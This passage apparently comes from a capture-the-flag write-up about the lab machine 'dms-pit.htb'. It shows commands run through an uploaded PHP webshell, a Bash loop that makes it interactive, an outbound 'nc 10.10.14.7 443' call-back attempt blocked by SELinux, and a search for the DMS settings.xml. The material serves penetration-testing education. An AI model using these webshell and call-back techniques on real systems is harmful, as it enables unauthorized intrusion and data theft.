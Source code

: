     
    
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /bin/nc'
    lrwxrwxrwx. 1 root root 22 May 10 10:56 /bin/nc -> /etc/alternatives/nmap
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /etc/alternatives/nmap'
    lrwxrwxrwx. 1 root root 13 May 10 10:56 /etc/alternatives/nmap -> /usr/bin/ncat
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/ncat'
    -rwxr-xr-x. 1 root root 644376 Nov  8  2019 /usr/bin/ncat
    

Ignoring the fact that somehow the `nc` link is configured through the
[alternatives](/2020/03/24/update-alternatives.html), the actual `ncat` binary
has an extra `.` on the end of the permissions. That’s an indication the
[SELinux is impacting the
file](https://serverfault.com/questions/778407/linux-file-permission-got-a-
ending-dot-and-webserver-denied-access).

`curl` has it too:

    
    
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/curl'
    -rwxr-xr-x. 1 root root 244104 Dec 17 17:46 /usr/bin/curl
    

### Webshell Enum

I’ll use a simple Bash loop to enumerate the box through the webshell:

    
    
    oxdf@parrot$ while :; do read -p "> " cmd; curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode "cmd=$cmd 2>&1"; done
    > id
    uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
    > ls
    1.php
    > nc 10.10.14.7 443
    Ncat: Permission denied.
    

I’m not able to access `/home`:

    
    
    > ls /home
    ls: cannot open directory '/home': Permission denied
    

Looking at the web directories, there’s a `settings.xml` for the DMS:

    
    
    > ls ../..
    1048576
    backup
    cache
    conf
    log
    lucene
    staging
    > ls ../../conf
    settings.xml
    settings.xml.template
    stopwords.txt
    